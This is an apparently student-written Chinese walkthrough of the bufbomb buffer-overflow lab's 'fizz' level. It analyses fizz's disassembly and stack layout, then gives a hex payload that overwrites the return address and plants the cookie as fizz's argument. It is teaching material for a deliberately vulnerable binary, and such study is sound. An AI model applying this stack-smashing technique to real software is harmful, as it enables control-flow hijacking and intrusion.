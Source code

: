```
$./makecookie yy
```

得到我的id,yy,对应的cookie为0x2a50279f。因此我们要将2a50279f写入fizz的参数所在的内存位置。
查看fizz的汇编代码有下列指令：

```
 804906f: 55                     push   %ebp
 8049070: 89 e5                  mov    %esp,%ebp
 8049072: 83 ec 18               sub    $0x18,%esp
 8049075: 8b 45 08               mov    0x8(%ebp),%eax
 8049078: 3b 05 e4 c1 04 08      cmp    0x804c1e4,%eax
 804907e: 75 1e                  jne    804909e <fizz+0x2f>
 8049080: 89 44 24 04            mov    %eax,0x4(%esp)
```

有条比较指令 

```
cmp 0x804c1e4,%eax
```

比较寄存器eax和内存地址0x804c1e4的内容，查找符号表得知0x804c1e4存放的就是cookie,很明显我们的任务就是要使%eax里的内容等于0x2a50279f，由指令

```
mov 0x8(%ebp),%eax
```

可知fizz()的参数位置在0x8(%ebp)，它把参数给%eax，再与cookie比较。fizz()的操作将会在getbuf()结束后执行，在查看bud_asm, getbuf()结尾有代码

```
leave        //等价于 mov %ebp,%esp; pop %ebp 
ret          //等价于 pop PC
```

可知栈顶指针寄存器%esp和帧指针寄存器%ebp已经回到bufbomb程序在调用getbuf()前的状态了。
由fizz的

```
mov %esp, %ebp
```

可知此时的%ebp是上一个栈test()栈的栈顶，
由于我们不是call fizz，而是直接jmp到fizz,因而程序没有自动push返回地址入栈，%esp也没有自动-4，因此上一个栈的栈顶%esp应该在上一题返回地址所在位置的上边一个存储单元。也就是说，fizz()中的%ebp的位置是上一题的0x4(%ebp)+4 = 0x8(%ebp)，我们只要比上一题再多写8个字节就可以覆盖到fizz的参数存放位置了。后4个字节为我们的cookie——9f 27 50 2a(注意是0x2a50279f的小端模式)，要输入的十六进制数字如下：

```
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 00 00
00 00 00 00 ba 90 04 08 00 00
00 00 9f 27 50 2a
```

把他们写入文本文件in1,输入命令

```
$./hex2raw in1 out1
$./bufbomb < out1 -u yy
```
